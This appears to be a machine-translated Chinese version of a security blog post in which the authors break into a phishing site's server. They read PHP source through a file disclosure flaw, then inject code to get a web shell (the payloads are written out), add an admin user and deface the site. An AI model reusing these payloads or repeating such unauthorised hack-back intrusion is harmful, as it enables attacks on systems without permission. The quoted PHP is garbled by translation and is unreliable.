# 摧毁骗子门户网站

> 原文：<https://infosecwriteups.com/destroying-the-scammers-portal-a78b034fb4b2?source=collection_archive---------2----------------------->

向所有读者问好，

这是我们上一个故事[入侵骗子门户](https://medium.com/@kunwaratulhax0r/hacking-into-scammers-portal-2-d1345e15f014)的继续，我们入侵了骗子门户。

**简介**

如前一篇文章所述，我们的朋友 [**Sri**](https://twitter.com/Sri_Hxor) 收到一条关于所得税退税的消息，表明他的所得税计算有误，要获得退税，他应该点击一个链接并安装一个应用程序。

所以我们在网站上做了一些测试，发现了一个“本地文件泄露”漏洞，通过这个漏洞我们可以进入他们的数据库。

我们删除了数据库，并放置了一条消息来阻止这一点，但骗子没有停止，并继续通过它来诈骗人们和窃取数据。

**最后一章**

所以，这次我们想为什么不给这个骗子一个教训呢？

我们继续测试该应用程序，发现了骗子托管的钓鱼页面。



网络钓鱼页面要求受害者提供他们的个人数据以及银行详细信息，包括 ATM Pin 和网上银行详细信息。



这些链接被从 Refund/xxx.php 重定向到某个随机的目录和文件。

我们通过 LFD 读取 PHP 文件，发现它创建了一个随机目录，并复制了钓鱼页面的内容。
一旦受害者输入他们的详细信息，数据将被存储在数据库中，该目录将被删除。

即使没有输入详细信息，通过比较 robo.txt 和 robo retailed . txt
中的先前时间，文件也会在一段时间后被删除，因此网络钓鱼页面会被临时激活，一旦工作完成，目录会被删除，不会留下网络钓鱼的痕迹。

这使得爬虫和检测机制很难检测到该服务器正被用于网络钓鱼攻击。



这些文件是



Configuration.php 文件



日志管理文件



在这个页面上，骗子管理并检查通过网络钓鱼获取的所有详细信息。

在查看了每个文件后，我找到了上传 shell 的方法。

**剥削**

钓鱼 PHP 脚本有以下几行-

> $page = $p1。$p2。$p3。$p4。$pg。5 美元。" \ n \ $ owner = ' $ owner"。$ p6
> $ file 1 = $ abstrand。"/pg . PHP "；
> $fh = fopen($file1，" w ")或 die("无法打开文件！");
> fwrite($fh，$ page)；
> fclose($ FH)；
> 
> 返回$ result

如果我们看一下上面的语句，我们就会知道，除了所有的 txt 文件之外，它还创建了一个 PHP 文件，其中的内容来自参数$p-$p6。

幸运的是，很少有参数直接从$_GET 获取数据。
所以我修改了参数，把 phpinfo()放到文件里。

> 有效载荷—taz’；phpinfo()；$gg= '

这用一个 PHP 文件创建了一个随机目录，在访问它时，我们可以看到 PHPINFO 页面



为了得到贝壳。

有效负载-**' % 3b var _ dump(system(% 24 _ GET[1])% 3b % 24gg = '**

输出



xampp 以管理员身份运行，因此很容易添加用户并访问 RDP。

我们做的事情很少。

*   删除了所有的钓鱼文件和数据。
*   已更改管理员背景和索引页面以发送邮件。
*   为执行上述任务创建了计划任务。
*   向主机提供商报告了一切。
*   卡的详细资料也正在与各自的银行共享，以便他们可以阻止和采取必要的行动。

管理员背景



如果任何人打开收到的消息的链接，将会看到我们的消息。

学分—

昆瓦·阿图尔(@昆瓦·阿图尔哈克斯 0r)

animesh Roy(@ anir oy)

Sri Ram (@Sri_Hxor)

沙希瓦特·库马尔(@拉胡拉兹)

快乐黑客🧑🏻‍💻

## 来自 Infosec 的报道:Infosec 每天都有很多内容，很难跟上。[加入我们的每周简讯](https://weekly.infosecwriteups.com/)以 5 篇文章、4 个线程、3 个视频、2 个 GitHub Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！